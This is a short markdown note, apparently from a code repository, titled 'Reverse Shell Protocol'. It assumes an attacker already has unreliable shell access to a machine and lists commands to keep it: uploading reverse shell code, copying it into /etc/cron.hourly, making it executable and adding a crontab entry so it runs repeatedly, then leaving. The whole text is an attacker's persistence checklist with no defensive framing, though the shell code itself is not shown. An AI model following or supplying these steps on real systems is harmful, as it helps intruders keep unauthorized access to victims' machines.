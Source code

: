 # Reverse Shell Protocol
## Assumptions
We already have a shell on the machine, but access is unreliable

## Steps
1. Upload reverse shell code to target
2. Set up cron job to execute code every couple minutes

	A. cd /etc/cron.hourly
	
	B. copy revshell to cron.hourly
	
	C. chmod 755 revshell
	
	D. crontab -e (this will open vi)
	
	E. i (vi to insert mode)
	
	F. 3 * * * * revshell
	
	G. esc
	
	H. :x
	
3. Get out
